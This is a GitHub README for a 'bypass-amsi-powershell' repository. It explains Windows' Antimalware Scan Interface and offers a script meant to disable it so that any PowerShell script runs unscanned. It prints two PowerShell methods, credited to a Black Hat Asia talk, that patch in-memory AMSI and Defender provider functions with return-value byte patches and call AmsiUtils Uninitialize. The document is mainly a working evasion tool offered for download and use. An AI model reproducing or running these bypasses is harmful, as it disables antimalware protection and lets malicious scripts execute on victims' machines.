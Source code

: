 # bypass-amsi-powershell
<div align="center">
	<br />
	<p>
		<a href="#"><img src="./static/amsiarch.jpg" width="540" alt="AMSI Architecture" /></a>
	</p>
	<br />
	<p>
		<a href="https://discord.gg/ndjNzKCmff"><img src="https://img.shields.io/badge/discord-join-blue?style=flat-square&logo=discord" alt="My Discord server" /></a>
		<a href="https://github.com/luke-beep"><img src="https://img.shields.io/badge/github-view-blue?style=flat-square&logo=github" alt="My Github profile" /></a>
    </p>
</div>


AMSI stands for "Antimalware Scan Interface." It is a Microsoft Windows interface that allows antivirus and other security software to scan scripts and other types of content in memory, before they are executed. This allows the security software to detect and prevent the execution of malicious scripts, such as those used by malware or other types of cyber threats. AMSI was introduced in Windows 10 and is also supported in Windows Server 2016 and later versions. This script essentially breaks the AMSI protection by breaking one of the components in the AMSI chain.

This script can run on any of [these](./static/VERSIONS.md) versions of Windows.

### Usage
---

Simply download the [script](./script/bypass-amsi.dll.ps1) and run it in powershell. It will automatically bypass AMSI (Antimalware Scan Interface) and allow you to run any powershell script without being blocked by AMSI (Antimalware Scan Interface).

### Why does it work?
---

By breaking one of the chains as in this architecture, it allows the script to run without being blocked by AMSI (Antimalware Scan Interface). 

<a href="#"><img src="./static/amsiarch.png" width="540" alt="AMSI Architecture" /></a> 

### 1st Method by Maor Korkos
---

```powershell
Add-Type $APIs
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
$LoadLibrary = [APIs]::LoadLibrary("MpOav.dll")
$Address = [APIs]::GetProcAddress($LoadLibrary,
"DllGetClassObject")
$p = 0
[APIs]::VirtualProtect($Address, [uint32]6, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
$object = [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils')
$Uninitialize = $object.GetMethods("NonPublic,static") | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object,$null)
```
AMSI (Antimalware Scan Interface) Bypass created By Maor Korkos https://i.blackhat.com/Asia-22/Friday-Materials/AS-22-Korkos-AMSI-and-Bypass.pdf | Page 43


### 2nd Method by Maor Korkos
---

```powershell
[DllImport("amsi")]
public static extern int AmsiInitialize(string appName, out IntPtr context);
$SIZE_OF_PTR = 4; $NUM_OF_PROVIDERS = 2; $ctx = 0; $p = 0
$ret_zero = [byte[]] (0xb8, 0x0, 0x00, 0x00, 0x00, 0xC3)
[APIs]::AmsiInitialize("MyAmsiScanner", [ref]$ctx)
for ($i = 0; $i -lt $NUM_OF_PROVIDERS; $i++)
{
$CAmsiAntimalware = [System.Runtime.InteropServices.Marshal]::ReadInt32($ctx+8)
$AntimalwareProvider = [System.Runtime.InteropServices.Marshal]::ReadInt32($CAmsiAntimalware+36
+($i*$SIZE_OF_PTR))
$AntimalwareProviderVtbl = [System.Runtime.InteropServices.Marshal]::ReadInt32($AntimalwareProvider)
$AmsiProviderScanFunc = [System.Runtime.InteropServices.Marshal]::ReadInt32($AntimalwareProviderVtbl+12)
[APIs]::VirtualProtect($AmsiProviderScanFunc, [uint32]6, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($ret_zero, 0, $AmsiProviderScanFunc, 6)
}
```

AMSI (Antimalware Scan Interface) Bypass created By Maor Korkos https://i.blackhat.com/Asia-22/Friday-Materials/AS-22-Korkos-AMSI-and-Bypass.pdf | Page 51


### Showcase

Showcase of this script in action

<a href="./static/amsibreaktutorial.png"><img src="./static/amsibreaktutorial.png" width="1250" alt="Showcase" /></a>